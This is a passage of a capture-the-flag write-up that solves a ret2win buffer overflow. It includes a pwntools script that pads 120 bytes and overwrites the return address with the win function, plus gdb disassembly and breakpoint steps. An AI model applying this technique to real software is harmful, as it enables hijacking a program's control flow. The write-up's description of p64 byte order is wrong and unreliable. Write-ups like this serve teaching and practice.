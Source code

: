 The offset for our payload is `120` bytes.

## Building The Exploit Payload

Now we start to build our payload. We find the address of the `win`-method using `pwntools`. The we build the payload by padding with `A * offset` and the we follow with the `win`-address. The address is wrapped in `p64` to make sure that the endianness is correct. `0x4012f4` becomes `0xf41240`. This script writes the payload to the `payload` file for easy testing in `gdb`.

*Partial code from `solve.py`:*
```python
# load the ELF-object to easily lookup symbols
elf = ELF('rip')
addr_win = elf.symbols['win']

offset = 120

payload = b"".join([
    b'A' * offset,
    p64(addr_win)
])

# Used for testing the payload in `gdb`:
file = open("payload", "wb")
file.write(payload + b"\n")
file.close()
```


## Verifying Our Exploit Payload In `gdb`

Now we try the exploit in `gdb` to verify that everything works. First we run `disas main` to disassemble the `main`-method so that we can find an address and set a breakpoint to inspect the stack. This is because we won't get a `SIGSEGV` this time, so we have to make the program stop at the correct place.

```bash
gef➤  disas main
Dump of assembler code for function main:
# ...abbreviated
   0x0000000000401372 <+103>:   lea    rdi,[rip+0xd01]        # 0x40207a
   0x0000000000401379 <+110>:   call   0x4010d0 <puts@plt>
   0x000000000040137e <+115>:   mov    eax,0x0
   0x0000000000401383 <+120>:   leave
   0x0000000000401384 <+121>:   ret
End of assembler dump.
```

We set our breakpoint at the `ret`-instruction, which is the last instruction in `main`. This is right before our `win`-address is being popped of the stack.

The address of the `ret`-instruction is `0x0000000000401384`. We use `b *` followed by the address to set the breakpoint. Then we run the program inside `gdb` and read in the `payload` file.
